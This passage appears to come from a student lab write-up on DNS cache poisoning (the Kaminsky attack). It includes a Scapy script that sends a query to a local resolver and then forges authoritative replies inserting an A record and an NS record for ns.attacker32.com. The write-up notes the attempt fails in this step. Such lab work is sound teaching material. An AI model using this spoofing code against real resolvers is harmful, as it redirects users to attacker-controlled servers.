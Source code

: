 As seen, the IP address for `a.iana-servers.net` is `199.43.135.53`, and the IP address of `b.iana-servers.net` is `199.43.133.53`. With these IP addresses, we can finish the task, as we now know which IP addresses we need to spoof. 

In the following code, we start by sending a request to the local DNS server which will trigger a DNS request. While Apollo, our DNS resolver, waits for the reply, the attacker will send Apollo the spoofed replies. These replies look like they came from the `example.com` name servers and they provide an IP resolution for `www.example.com` (`1.2.3.5`). The attacker also provides an "Authoritative Name servers" record, indicating `ns.attacker32.com` as the name server for the `example.com` domain so that any subsequent requests for this domain are redirected to this name server. This is the most important part of the spoofed reply.

```python
from scapy.all import * 

attackerIP = "10.9.0.1"
apoloIP = "10.9.0.53"
nsIPs = ["199.43.133.53", "199.43.135.53"]

domain = 'example.com'
name = 'www.example.com'
ns = 'ns.attacker32.com'
port = RandShort()

# Send request
Qdsec = DNSQR(qname=name)
dns = DNS(id=0xAAAA, qr=0, qdcount=1, ancount=0, nscount=0,arcount=0, qd=Qdsec)
ip = IP(dst=apoloIP, src=attackerIP)
udp = UDP(dport=53, sport=port, chksum=0)
request = ip/udp/dns

send(request)

# Send spoofed replies 
for ipns in nsIPs:
    Qdsec = DNSQR(qname=name)
    Anssec = DNSRR(rrname=name, type='A', rdata="1.2.3.5", ttl=259200)
    NSsec = DNSRR(rrname=domain, type='NS', rdata=ns, ttl=259200)
    dns = DNS(id=0xAAAA, aa=1, rd=1, qr=1, qdcount=1, ancount=1, nscount=1, arcount=0,
        qd=Qdsec, an=Anssec, ns=NSsec)
    ip = IP(dst=apoloIP, src=ipns)
    udp = UDP(dport=33333, sport=53, chksum=0)
    reply = ip/udp/dns
    send(reply)
```

The request can be seen in packet number 3, and the spoofed replies can be seen in packets number 6 and 7 in the [capture file](logs/task3.pcapng).

Note that the transaction ID used in this task is `0xAAAA` which will be different from the one used in the actual request. This causes the spoof attempt to fail. This will be addressed in the next task. One other thing that also restricts the success of the spoofed reply is that the spoofed packets, as can be seen in the capture file, are sent too early, therefore they will be classified as illegitimate. 

